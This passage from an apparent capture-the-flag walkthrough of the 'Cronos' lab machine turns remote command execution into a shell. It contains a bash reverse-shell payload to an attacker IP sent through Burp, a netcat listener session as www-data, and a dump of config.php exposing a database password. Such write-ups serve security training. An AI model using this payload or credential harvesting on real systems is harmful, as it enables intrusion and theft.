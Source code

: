 We have command execution on the target.

## Gaining Access

Let's see if we can get a reverse shell using this RCE. Start a netcat listener, and back in BURP, URL encode the following payload, before sending it:

> bash -c 'bash -i >& /dev/tcp/10.10.14.6/8888 0>&1'

![](<../../.gitbook/assets/8 (4).JPG>)

In our listener, we get a shell as "www-data":

```
└─$ nc -nvlp 8888                         
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:41540.
bash: cannot set terminal process group (1376): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos:/var/www/admin$ 

```

## Enumeration as "www-data"

We land in the /var/www/admin directory. Let's have a look at the config.php file in here.

```
www-data@cronos:/var/www/admin$ ls -la
ls -la
total 32
drwxr-xr-x 2 www-data www-data 4096 Jan  1  2021 .
drwxr-xr-x 5 root     root     4096 Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1024 Apr  9  2017 .welcome.php.swp
-rw-r--r-- 1 www-data www-data  237 Apr  9  2017 config.php
-rw-r--r-- 1 www-data www-data 2531 Jan  1  2021 index.php
-rw-r--r-- 1 www-data www-data  102 Apr  9  2017 logout.php
-rw-r--r-- 1 www-data www-data  383 Apr  9  2017 session.php
-rw-r--r-- 1 www-data www-data  782 Apr  9  2017 welcome.php
www-data@cronos:/var/www/admin$ cat config.php
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
```